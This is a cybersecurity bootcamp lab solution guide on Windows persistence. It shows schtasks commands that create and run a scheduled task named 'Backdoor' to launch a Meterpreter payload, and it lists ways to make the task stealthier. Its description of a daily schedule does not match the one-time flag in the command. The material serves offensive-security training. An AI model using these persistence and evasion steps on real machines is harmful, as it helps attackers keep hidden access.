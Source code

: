 ## Solution Guide: Windows Persistence

In this activity, you established persistence on the machine to ensure your SYSTEM access. You created a scheduled task that executes a custom Meterpreter payload.

### Instructions

You will work off your Meterpreter session on the Windows 10 machine. If you do not have an active session on the WIN10 machine, refer to prior activities to obtain a Meterpreter shell.

1. In your Meterpreter session, drop into a `shell` session.

     - `shell`

2. Create a scheduled task that will execute your payload every day at midnight.  

     - `schtasks /create /f /tn Backdoor /SC ONCE /ST 00:00 /TR "C:\shell.exe"`

	 ![A screenshot depicts the results of the command.](schtask.PNG)

3. Test your scheduled task.

     - `schtasks /run /tn Backdoor`

	 ![A screenshot depicts the results of the command.](testschtask.PNG)

4. How could you improve this technique to make it more stealthy?

     - Use a better task name.

     - Execute a better-named payload.

     - Schedule the task only to run on certain events, such as logon.

---

&copy; 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.



